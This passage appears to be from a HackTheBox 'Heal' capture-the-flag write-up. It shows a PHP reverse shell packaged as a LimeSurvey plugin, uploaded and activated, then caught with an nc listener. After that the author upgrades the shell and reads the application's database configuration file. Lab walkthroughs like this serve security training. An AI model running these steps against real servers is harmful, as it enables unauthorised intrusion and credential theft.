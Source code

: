 ~~~ shell

┌──(trit㉿chimp)-[~/HackTheBox/Heal/Limesurvey-RCE]
└─$ rm Y1LD1R1M.zip

┌──(trit㉿chimp)-[~/HackTheBox/Heal/Limesurvey-RCE]
└─$ zip Y1LD1R1M.zip config.xml php-rev.php
  adding: config.xml (deflated 56%)
  adding: php-rev.php (deflated 61%)
~~~

Upload the zip file to the server's **Plugin** section,. by clicking **Configuration -> Settings -> Plugins -> Uploads & Install in turn**. Finally, click the **Active** button of the **Y1LD1R1M.zip** file.

Start a `nc` listener, Then acccess url **http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php**


~~~ shell 
┌──(trit㉿chimp)-[~/HackTheBox/Heal/Limesurvey-RCE]
└─$ nc -lnvp 4444
~~~

~~~ shell 
┌──(trit㉿chimp)-[~/HackTheBox/Heal/Limesurvey-RCE]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.11.46] 46116
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 10:18:56 up  2:16,  2 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ron      pts/1    10.10.16.20      08:34    1:24m  0.02s  0.01s ssh -L 8500:127.0.0.1:8500 ron@heal.htb
ron      pts/2    127.0.0.1        08:47    1:24m  0.02s  0.02s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@heal:/$ cat /var/www/limesurvey/application/config/config.php
cat /var/www/limesurvey/application/config/config.php
<?php if (!defined('BASEPATH')) exit('No direct script access allowed');
/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
|
| -------------------------------------------------------------------
| EXPLANATION OF VARIABLES
| -------------------------------------------------------------------
|
|    'connectionString' Hostname, database, port and database type for
|     the connection. Driver example: mysql. Currently supported:
|                 mysql, pgsql, mssql, sqlite, oci
|    'username' The username used to connect to the database
|    'password' The password used to connect to the database
|    'tablePrefix' You can add an optional prefix, which will be added
|                 to the table name when using the Active Record class
|
*/
return array(
~~~
